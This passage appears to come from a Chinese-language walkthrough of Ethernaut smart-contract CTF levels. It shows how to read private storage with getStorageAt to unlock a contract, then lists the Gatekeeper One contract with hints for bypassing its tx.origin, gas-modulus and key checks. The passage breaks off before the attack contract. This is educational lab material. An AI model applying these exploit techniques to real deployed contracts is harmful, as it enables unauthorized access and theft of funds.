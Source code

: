       ```solidity
      await web3.eth.getStorageAt(contract.address, 5)
      0x
      dc77c687bb0f4faa11c787b1ef7ba598
      27391efac375685e160bf5235d59d2ca
      //转换为bytes16则取高16位
      0xdc77c687bb0f4faa11c787b1ef7ba598
      await contract.unlock('0xdc77c687bb0f4faa11c787b1ef7ba598')
      ```

      这和 `Valut` 也没区别啊

14.   **Gatekeeper One**

      ```solidity
      pragma solidity ^0.8.0;
      
      contract GatekeeperOne {
      
        address public entrant;
      
        modifier gateOne() {
          require(msg.sender != tx.origin);
          _;
        }
      
        modifier gateTwo() {
          require(gasleft() % 8191 == 0);
          _;
        }
      
        modifier gateThree(bytes8 _gateKey) {
            require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
            require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
            require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
          _;
        }
      
        function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
          entrant = tx.origin;
          return true;
        }
      }
      ```

      *   成为参赛者，有三关

          `gateOne` 通过外部合约可以绕过

          `gateTwo` 需要我们控制gas的值让它为8191的倍数，或者我们直接设置gas=0

          ```solidity
          // SPDX-License-Identifier: MIT
          pragma solidity ^0.8.0;
          